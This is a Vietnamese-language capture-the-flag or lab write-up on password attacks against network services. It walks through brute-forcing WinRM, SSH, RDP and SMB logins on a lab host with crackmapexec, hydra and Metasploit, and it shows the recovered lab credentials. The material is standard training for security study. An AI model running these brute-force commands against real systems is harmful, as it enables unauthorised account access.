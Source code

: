 <h1>Password Attacks: Network Services</h1>

![image](https://github.com/user-attachments/assets/a4f0bbce-5a49-4c50-9124-ba0733458f1c)

![image](https://github.com/user-attachments/assets/162084ec-59a1-4703-a8af-d94da14fad11)

![image](https://github.com/user-attachments/assets/260a06c9-3de9-49a8-a01c-e26be94cdfa8)

Chạy `crackmapexec winrm 10.129.167.69 -u username.list -p password.list` lấy user:pass từ 2 file và tấn công vét cạn:

![image](https://github.com/user-attachments/assets/f40f909e-5bec-42b9-9db6-ec5d4f217948)

Tôi có được john:november và chạy `evil-winrm -i 10.129.167.69 -u john -p november` để vào và tìm thấy flag trong Desktop

![image](https://github.com/user-attachments/assets/145f0f98-cc82-4842-9238-4a04e13fb867)

Dùng `hydra -L username.list -P password.list ssh://10.129.167.69` để tấn công vét cạn ssh:

![image](https://github.com/user-attachments/assets/d01dc777-4cf6-44e4-813c-ab22b405ea83)

Tôi có được dennis:rockstar, ssh vào và tìm thấy flag trong Desktop:

![image](https://github.com/user-attachments/assets/56fa5227-3033-4002-8c6c-c9d5a1db04cc)


Do tôi thấy có các user ở đây nên nghĩ chắc là 2 câu dưới cũng chỉ lanh quanh user này thôi nên tạo hẳn user.list để chứa mấy cái user này cho đẩy nhanh thời gian làm bài:

![image](https://github.com/user-attachments/assets/6f9a261b-a5a0-46ef-9b71-64b88c8980cf)

![image](https://github.com/user-attachments/assets/7791c747-33e3-4773-bb78-c97ff7df3c71)

![image](https://github.com/user-attachments/assets/e37b4403-0b97-4095-97b8-0019950f4561)

Chạy `hydra -L username.list -P password.list rdp://10.129.167.69` để vét cạn dịch vụ rdp:

![image](https://github.com/user-attachments/assets/a114d8b8-39a9-4f76-830e-c2d386483e6e)

Do lâu quá nên tôi tiện thể làm luôn smb `hydra -L user.list -P password.list smb://10.129.167.69`:

![image](https://github.com/user-attachments/assets/30442210-f5b2-4653-91fa-60f50fb122bb)

Cơ mà nó bị invalid và tra google thì ra như này [here](https://bugs.kali.org/view.php?id=6709):

![image](https://github.com/user-attachments/assets/ec4ebe92-1c3a-452a-9e1d-a5a5824d4b27)

Vậy nên tôi sử dụng msfconsole

![image](https://github.com/user-attachments/assets/522162d8-0f80-4aa1-8a1a-622123d2d8c3)

![image](https://github.com/user-attachments/assets/8bf8b30b-ca0e-4c16-b74a-2303c4883de3)

Có đến hẳn 2 cái luôn cassie:12345678910 và chris:789456123, thử với cassie:12345678910 thì ra flag:

![image](https://github.com/user-attachments/assets/ea6f50d0-7a32-4e1e-94ee-873caab957b9)

Với chris:789456123 thì vẫn như cái kia:

![image](https://github.com/user-attachments/assets/babb705d-4c63-4f46-9eb4-2b374083f66c)

